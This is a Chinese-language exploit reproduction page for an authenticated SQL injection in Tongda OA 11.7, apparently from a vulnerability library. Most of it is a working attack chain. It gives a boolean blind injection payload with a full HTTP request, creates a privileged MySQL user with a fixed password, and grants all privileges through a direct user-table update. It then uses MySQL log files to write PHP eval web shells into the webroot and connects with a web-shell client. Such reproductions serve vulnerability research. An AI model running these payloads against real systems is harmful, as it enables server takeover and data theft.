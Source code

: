 ```yaml
---
title: '通达OA-11.7存在sql注入.assets'
date: Sat, 19 Sep 2020 12:52:37 +0000
draft: false
tags: ['白阁-漏洞库']
---
```


#### 漏洞影响版本

通达oa 11.7 利用条件:需要账号登录

#### POC

1、下载通达OA 11.7，https://cdndown.tongda2000.com/oa/2019/TDOA11.7.exe 

2、condition\_cascade参数存在布尔盲注  

3.经过测试，过滤了一些函数(sleep、报错的函数等等)，各种注释，使用payload：select if((1=1),1,power(9999,99))、select if((1=2),1,power(9999,99))，判断注入点 #当字符相等时，不报错，错误时报错 

4、通过添加用户at666，密码为abcABC@123  

5、使用Navicat Premium连接数据库 

6、添加的账户不能直接通过日志慢查询写入文件，需要给创建的账户添加权限 [提权](https://www.bylibrary.cn/wp-content/uploads/2020/09/提权.txt) 

7、然后用注入点刷新权限，因为该用户是没有刷新权限的权限的
general/hr/manage/query/delete_cascade.php?condition_cascade=flush privileges; 

8、再次登录，提示密码过期，需要重新执行grant all privileges ON mysql.\* TO 'at666'@'%' IDENTIFIED BY 'abcABC@123' WITH GRANT OPTION 

9、然后写shell 

10、菜刀连接





=========================================================================

**通达OA 11.7 后台sql注入漏洞复现**

**一、****漏洞描述**

 通达OA-11.7存在sql注入.assets

**二、漏洞影响版本**

 通达oa 11.7

利用条件:需要账号登录 

**三、漏洞复现**

1、下载通达OA 11.7，https://cdndown.tongda2000.com/oa/2019/TDOA11.7.exe，点击安装

2、condition_cascade参数存在布尔盲注

POC：

[![复制代码](通达OA-11.7存在sql注入.assets/copycode.gif)](javascript:void(0);)

```
GET /general/hr/manage/query/delete_cascade.php?condition_cascade=select if((substr(user(),1,1)='r'),1,power(9999,99)) HTTP/1.1
Host: 192.168.77.137
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
X-Requested-With: XMLHttpRequest
Referer: http://192.168.77.137/general/index.php?isIE=0&modify_pwd=0
Cookie: PHPSESSID=ebpjtm5tqh5tvida5keba73fr0; USER_NAME_COOKIE=admin; OA_USER_ID=admin; SID_1=c71fa06d
DNT: 1
Connection: close
```

[![复制代码](通达OA-11.7存在sql注入.assets/copycode.gif)](javascript:void(0);)

3、经过测试，过滤了一些函数(sleep、报错的函数等等)，各种注释，使用payload：select if((1=1),1,power(9999,99))、select if((1=2),1,power(9999,99))，判断注入点  #当字符相等时，不报错，错误时报错

![img](通达OA-11.7存在sql注入.assets/1592114-20200918131448196-369801189.png)

![img](通达OA-11.7存在sql注入.assets/1592114-20200918131457270-1072697018.png)

4、通过添加用户at666，密码为abcABC@123

grant all privileges ON mysql.* TO 'at666'@'%' IDENTIFIED BY 'abcABC@123' WITH GRANT OPTION

![img](通达OA-11.7存在sql注入.assets/1592114-20200918140833664-1709732465.png)

5、使用Navicat Premium连接数据库

![img](通达OA-11.7存在sql注入.assets/1592114-20200918140944759-1969707413.png)

6、添加的账户不能直接通过日志慢查询写入文件，需要给创建的账户添加权限

UPDATE `mysql`.`user` SET `Password` =  '*DE0742FA79F6754E99FDB9C8D2911226A5A9051D', `Select_priv` = 'Y',  `Insert_priv` = 'Y', `Update_priv` = 'Y', `Delete_priv` = 'Y',  `Create_priv` = 'Y', `Drop_priv` = 'Y', `Reload_priv` = 'Y',  `Shutdown_priv` = 'Y', `Process_priv` = 'Y', `File_priv` = 'Y',  `Grant_priv` = 'Y', `References_priv` = 'Y', `Index_priv` = 'Y',  `Alter_priv` = 'Y', `Show_db_priv` = 'Y', `Super_priv` = 'Y',  `Create_tmp_table_priv` = 'Y', `Lock_tables_priv` = 'Y', `Execute_priv` = 'Y', `Repl_slave_priv` = 'Y', `Repl_client_priv` = 'Y',  `Create_view_priv` = 'Y', `Show_view_priv` = 'Y', `Create_routine_priv` = 'Y', `Alter_routine_priv` = 'Y', `Create_user_priv` = 'Y', `Event_priv` = 'Y', `Trigger_priv` = 'Y', `Create_tablespace_priv` = 'Y', `ssl_type` = '', `ssl_cipher` = '', `x509_issuer` = '', `x509_subject` = '',  `max_questions` = 0, `max_updates` = 0, `max_connections` = 0,  `max_user_connections` = 0, `plugin` = 'mysql_native_password',  `authentication_string` = '', `password_expired` = 'Y' WHERE `Host` =  Cast('%' AS Binary(1)) AND `User` = Cast('at666' AS Binary(5));

![img](通达OA-11.7存在sql注入.assets/1592114-20200918145139982-1847080322.png)

7、然后用注入点刷新权限，因为该用户是没有刷新权限的权限的

general/hr/manage/query/delete_cascade.php?condition_cascade=flush privileges;

![img](通达OA-11.7存在sql注入.assets/1592114-20200918145242794-1741869790.png)

8、再次登录，提示密码过期，需要重新执行grant all privileges ON mysql.* TO 'at666'@'%' IDENTIFIED BY 'abcABC@123' WITH GRANT OPTION

![img](通达OA-11.7存在sql注入.assets/1592114-20200918145636404-104307491.png)

![img](通达OA-11.7存在sql注入.assets/1592114-20200918145658609-861750253.png)

9、然后写shell

方法一:

select @@basedir;

set global slow_query_log=on;

set global slow_query_log_file='C:/tongda11.7/webroot/test.php';

select '<?php eval($_POST[x]);?>' or sleep(11);

方法二:

select @@basedir;

set global general_log = on;

set global general_log_file ='C:/tongda11.7/webroot/test2.php';

select '<?php eval($_POST[test2]);?>';

show variables like '%general%';

![img](通达OA-11.7存在sql注入.assets/1592114-20200918150409778-1231690665.png)

![img](通达OA-11.7存在sql注入.assets/1592114-20200918151144656-338989695.png)

10、菜刀连接

![img](通达OA-11.7存在sql注入.assets/1592114-20200918150531898-678705329.png)

 

 